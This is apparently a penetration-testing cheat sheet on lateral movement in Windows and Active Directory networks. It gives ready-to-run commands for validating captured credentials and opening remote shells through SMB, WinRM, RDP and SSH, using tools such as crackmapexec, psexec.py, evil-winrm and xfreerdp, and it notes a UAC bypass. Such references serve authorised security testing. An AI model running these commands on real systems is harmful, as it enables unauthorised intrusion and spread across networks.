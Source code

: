# Remote Services

## SMB (Lateral movement)

{% hint style="info" %}
Remember that if we have credentials and we are in an Active Directory environment, we must test if they are valid at LOCAL and DOMAIN level.
{% endhint %}

#### Validate credentials

```bash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}
crackmapexec smb <IP> -u '<USERNAME>' -p '<PASSWORD>' -d '<DOMAIN>'  # Way 1 (at domain level)
crackmapexec smb <IP> -u '<USERNAME>' -p '<PASSWORD>' # Way 2 (at domain level)
crackmapexec smb <IP> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP # Way 3 (at local level)
```

{% hint style="warning" %}
Remember that if we only get a "`[+]`", it only means that the credentials are valid but we cannot use psexec.py or other tools to get a shell. This is because we do not have write access to one of the SMB resources. However, if we get a "`[+] ... (Pwn3d!)`", it means that we already have full access.
{% endhint %}

#### Lateral Movement (SMB)

{% tabs %}
{% tab title="psexec.py" %}
```bash
psexec.py WORKGROUP/<USER>:<PASSWORD>@<IP/COMPUTER> # Local
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP/COMPUTER>
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP/COMPUTER> cmd.exe
```
{% endtab %}

{% tab title="wmiexec.py" %}
Requiere SMB (445) y RPC (135):

```bash
wmiexec.py <DOMAIN>/<USERNAME>@<IP/COMPUTER>
```
{% endtab %}

{% tab title="smbexec.py" %}
```bash
smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP/COMPUTER>
```
{% endtab %}

{% tab title="atexec.py" %}
Execute commands via the Task Scheduler (using `\pipe\atsvc` via SMB):

```bash
atexec.py [[DOMAIN/]USERNAME[:PASSWORD]@]<IP/COMPUTER> "command" 
```
{% endtab %}

{% tab title="smbclient" %}
Although smbclient only allows us to interact with shared resources, we can access the `C$` resource, which has the entire file system there.

```bash
smbclient //<IP>/<SHARED> -U '<USER>%<PASSWORD>'
```
{% endtab %}
{% endtabs %}

**INVESTIGATE IF YOU CAN GET A SHELL WITH CRACKMAPEXEC.**

## WinRM/PS Remoting (Lateral Movement)

An alternative to RPC/SMB to connect to a Windows machine is Powershell Remoting, that will allow you to get a Powershell session in the remote machine. The Powershell remoting service listens in the port 5985 and is enabled by default in the Windows Server machines.

You can use Powershell Remoting from Windows by using many [CmdLets and parameters](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.1) available in Powershell. From a Linux machine you can use [evil-winrm](https://github.com/Hackplayers/evil-winrm).

As well as in the RPC/SMB case, you can use a password, a NT hash or a Kerberos ticket to connect to the target machine.

#### Validate credentials

```bash
crackmapexec winrm -u '<USERNAME>' -p '<PASSWORD>'
```

#### Tools

{% tabs %}
{% tab title="evil-winrm" %}
```bash
# Installation:
gem install evil-winrm
# Connect:
evil-winrm -u '<USERNAME>' -p '<PASSWORD>' -i <IP>
evil-winrm -u '<USERNAME>' -p '<PASSWORD>' -i <IP> -S # SSL
evil-winrm -u '<USERNAME>' -p '<PASSWORD>' -i <IP> -k <PRIVATE KEY>.key -c <PUBLIC CERTIFICATE>.cer -S # If certificates are required.
# Download/Upload
download <ABSOLUTE PATH (REMOTE)> <ABSOLUTE PATH (LOCAL)>
upload <ABSOLUTE PATH (LOCAL)> <ABSOLUTE PATH (REMOTE)>
```

{% hint style="info" %}
For the upload/download functions, remember to ALWAYS use ABSOLUTE paths, otherwise it will not work.
{% endhint %}

### Troubleshooting

#### rexml

It may be that there is an error in the rexml. This can be solved by editing the "Gemfile" located in "/usr/share/evil-winrm". In the gem part, we add the following:

```bash
gem 'rexml', '~> 3.2.4'
```

Also consider reinstalling rexml: `gem install rexml`
{% endtab %}

{% tab title="PowerShell" %}
```bash
# With credentials:
$session = New-PSSession -ComputerName <computername or IP> -Authentication Negotiate -Credential <USERNAME>
Enter-PSSession -Session $session
```
{% endtab %}

{% tab title="winrm_shell.rb" %}
#### Installation

```bash
wget https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb
gem install winrm_shell.rb
# Simple use:
ruby winrm_shell.rb
```

{% hint style="info" %}
Don't forget to set the parameters by modifying the code as shown below.
{% endhint %}

#### Set credentials

```ruby
endpoint: 'https://<IP>:<PORT>/wsman', # Change endpoint.
transport: :ssl,
user: '<USERNAME>', # Change username.
password: '<PASSWORD>', # Change password.
```

#### Set certificates

```ruby
endpoint: 'https://<IP>:<PORT>/wsman', # Change endpoint
transport: :ssl,
client_key => '<PUBLIC KEY CERTIFICATE>.key', # Delete user parameter
client_cert => '<PRIVATE KEY CERTIFICATE>.cert', # Delete password parameter
```
{% endtab %}
{% endtabs %}

## RDP (Lateral movement)

{% hint style="warning" %}
Beware of the UAC that degrades the access token! In all the local accounts, the only one we can move laterally is the Administrator account. We cannot do it with an account that is in the **Administrators group** (**local**). We can try to bypass the UAC to make the move. In the domain accounts, all can be moved laterally. If a domain user is a member of the local Administrators group of another system, we can move without any obstacle. It should be noted that if a local user is in the "Remote Desktop Users" group, we can also move laterally.
{% endhint %}

#### Tools

{% tabs %}
{% tab title="remmina" %}
```bash
# Installation:
sudo apt install remmina # Ubuntu/Debian
sudo pacman -S remmina # Arch Linux
```
{% endtab %}

{% tab title="xfreerdp" %}
```bash
xfreerdp /u:<USERNAME> /d:WORKGROUP /p:<PASSWORD> [+clipboard] /v:<IP> # Local
xfreerdp /u:<USERNAME> /d:<DOMAIN> /p:<PASSWORD> [+clipboard] /v:<IP> [/smart-sizing] # Domain
# Sharing at network level, our /tmp directory:
xfreerdp /u:<USERNAME> /p:<PASSWORD> /cert:ignore [+clipboard] /v:<IP> [/dynamic-resolution] /drive:share,/tmp 
```
{% endtab %}

{% tab title="rdesktop" %}
```bash
# Installation:
sudo apt-get install rdesktop # Ubuntu/Debian
sudo pacman -S rdesktop # Arch Linux
# Simple use:
rdesktop <IP> -g 95%
```

We can share a local directory as a mount volume through RDP itself once we connect to the machine:

```bash
rdesktop -g 95% -r disk:tmp=/usr/share/windows-binaries <IP> -u <USERNAME> -p -
```
{% endtab %}
{% endtabs %}

## SSH (Lateral Movement)

```bash
ssh <USERNAME>@<IP> # With password.
sshpass -p '<PASSWORD>' ssh <USERNAME>@<IP>
ssh -i <ID_RSA> <USERNAME>@<IP> # With private key.
```

[Pass-The-Hash](use-alternate-authentication-material/pass-the-hash/ssh-pth.md) can also be performed via SSH.
